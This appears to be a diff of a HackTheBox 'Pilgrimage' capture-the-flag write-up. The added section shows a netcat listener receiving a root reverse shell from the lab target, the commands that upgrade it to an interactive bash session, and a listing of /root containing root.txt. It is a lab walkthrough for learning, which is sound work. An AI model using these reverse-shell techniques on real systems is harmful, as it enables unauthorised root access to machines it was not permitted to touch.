

Before and after one commit to ACHUX21/Writeups, a Markdown page: HackTheBox/Pilgrimage/Readme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/HackTheBox/Pilgrimage/Readme.md
+++ b/HackTheBox/Pilgrimage/Readme.md
@@ -167,3 +167,32 @@ bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
 binwalk_exploit.png                                                                                                  100% 1084     3.4KB/s   00:00
 
 ```
+
+
+and we have access
+```bash
+root@Fs:.../Pilgrimage/privesc# nc -lnvp 9999
+Listening on 0.0.0.0 9999
+Connection received on 10.10.11.219 46362
+ls
+_binwalk_exploit.png.extracted
+_e.png.extracted
+whoami
+root
+id
+uid=0(root) gid=0(root) groups=0(root)
+python3 -c 'import pty;pty.spawn("/bin/bash")'
+^Z
+[1]+  Stopped                 nc -lnvp 9999
+root@Fs:.../Pilgrimage/privesc# stty raw -echo;fg
+nc -lnvp 9999
+             root@pilgrimage:~/quarantine# export TERM=xterm-256color
+root@pilgrimage:~/quarantine# export SHELL=/bin/bash
+root@pilgrimage:~/quarantine# ls
+_binwalk_exploit.png.extracted	_e.png.extracted
+root@pilgrimage:~/quarantine# ls /root
+quarantine  reset.sh  root.txt
+root@pilgrimage:~/quarantine#
+```
+
+Goodbye! 💜
````
